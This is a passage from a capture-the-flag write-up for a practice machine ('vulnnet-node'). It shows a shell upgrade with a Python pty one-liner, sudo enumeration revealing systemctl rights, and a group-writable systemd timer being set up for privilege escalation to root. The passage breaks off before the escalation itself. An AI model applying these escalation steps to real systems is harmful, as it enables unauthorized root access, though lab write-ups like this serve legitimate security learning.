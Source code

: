 And we're in! Let's get that flag

```sh
cat /home/serv-manage/user.txt
THM{REDACTED}
```

## Priv Esc from serv-manage to root
Now that we escalated our privileges, let's get ourselves a better shell.

```sh
python -c 'import pty; pty.spawn("/bin/sh")'
```

Let's proceed with enumerating for privilege escalation.

```sh
$ sudo -l

Matching Defaults entries for serv-manage on vulnnet-node:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User serv-manage may run the following commands on vulnnet-node:
    (root) NOPASSWD: /bin/systemctl start vulnnet-auto.timer
    (root) NOPASSWD: /bin/systemctl stop vulnnet-auto.timer
    (root) NOPASSWD: /bin/systemctl daemon-reload
```

We have sudo access with `/bin/systemctl` as `root` on the following files: `vulnnet-auto.timer`, `stop vulnnet-auto.timer`, and `daemon-reload`.

Let's locate where this files are and change directory to their location.

```sh
$ locate vulnnet-auto.timer
/etc/systemd/system/vulnnet-auto.timer

$ cd /etc/systemd/system && ls -la
[CLIPPED]
-rw-rw-r--  1 root serv-manage  167 Jan 24 16:59 vulnnet-auto.timer
-rw-rw-r--  1 root serv-manage  197 Jan 24 21:40 vulnnet-job.service
```

Let's investigate the contents of these files, let's do `vulnnet-auto.timer` first.

```sh
$ cat vulnnet-auto.timer

[Unit]
Description=Run VulnNet utilities every 30 min

[Timer]
OnBootSec=0min
# 30 min job
OnCalendar=*:0/30
Unit=vulnnet-job.service

[Install]
WantedBy=basic.target
```
